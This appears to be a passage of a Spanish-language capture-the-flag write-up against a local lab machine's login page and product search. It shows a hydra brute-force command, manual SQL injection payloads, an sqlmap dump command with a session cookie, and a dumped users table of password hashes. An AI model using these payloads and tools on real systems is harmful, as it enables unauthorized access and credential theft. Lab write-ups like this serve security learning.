 Realizando el ataque con **hydra** no tuvimos suerte:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Nombre de usuario o contraseña incorrectos." -V 
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
de desta **url** es donde tenemos un buscador por producto aqui probaremos si es vulnerable a una **SQLInjection**
```bash
http://172.17.0.2/mycart.php
```

En **buscarProductos** logramos corromper la query, Asi que empezaremos con la enumeracion de la base de datos logrando determinar que el numero de columnas es **5**:
```bash
' order by 5-- -
```

Ahora tenemos ordenadas las columnas:
```bash
' union select "1","2","3","4","5"-- -
```

Ahora sabemos que el nombre de la base de datos es: **( apple_store )** y el usuario que corre esta base de datos es **root** **( root@localhost )**
```bash
' union select "1",database(),user(),"4","5"-- -
```

Ahora toca enumera sus columnas para esta base de datos:
```bash
select group_concat(table_name) from information_schema.tables where table_schema='alxbd
```
### Ejecucion del Ataque
Por alguna razon no tuvimos exito al enumerar, las tablas asi que aremos uso de **SQLMap**
```bash
# Comandos para explotación
sqlmap -u "http://172.17.0.2/mycart.php?search=" --cookie="PHPSESSID=mrm19nhu2psnmleque5oi0sdvt" --level=5 --risk=3 --dump --batch
```

Ahora tenemos **dumpeada** la base de datos **users**
```bash
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a        | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0        | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 (test) | test     |
| 4  | 0603d39ff36b2201d45e12891635521788a1d442 (alx)  | alx      |
| 5  | 19fe509f9bae7168fc856f3fd8db02cf28c683f5        | root     |
+----+-------------------------------------------------+----------+
```
